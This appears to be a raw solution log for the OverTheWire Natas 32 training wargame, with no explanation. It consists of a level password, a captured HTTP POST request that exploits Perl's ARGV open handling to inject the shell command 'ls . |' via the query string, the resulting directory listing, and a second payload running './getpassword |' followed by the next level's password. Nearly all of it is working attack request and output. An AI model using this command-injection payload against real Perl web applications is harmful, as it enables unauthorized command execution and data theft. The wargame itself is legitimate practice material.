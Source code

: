 natas32
NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B

a;b
c;d

POST /index.pl?ls%20.%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Content-Length: 384
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMjpOYUlXaFcyVklyS3FyYzdhcm9KVkhPWnZrM1JRTWkwQg==
Accept-Language: en-US,en;q=0.9
Origin: http://natas32.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9GAKBxZzKVBqrzWm
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas32.natas.labs.overthewire.org/index.pl
Accept-Encoding: gzip, deflate, br
Cookie: _ga=GA1.1.1947089201.1755739126; _ga_RD0K2239G0=GS2.1.s1756531194$o3$g1$t1756531347$j60$l0$h0
Connection: keep-alive

------WebKitFormBoundary9GAKBxZzKVBqrzWm
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundary9GAKBxZzKVBqrzWm
Content-Disposition: form-data; name="file"; filename="just-a.csv"
Content-Type: text/csv

a;b
c;d

------WebKitFormBoundary9GAKBxZzKVBqrzWm
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundary9GAKBxZzKVBqrzWm--


HTTP/1.1 200 OK
Date: Tue, 02 Sep 2025 21:15:27 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1882
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

...

<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index.pl
</td></tr><tr><td>jquery-1.12.3.min.js
</td></tr><tr><td>sorttable.js
</td></tr><tr><td>tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

%2E%2Fgetpassword%20%7C
2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ

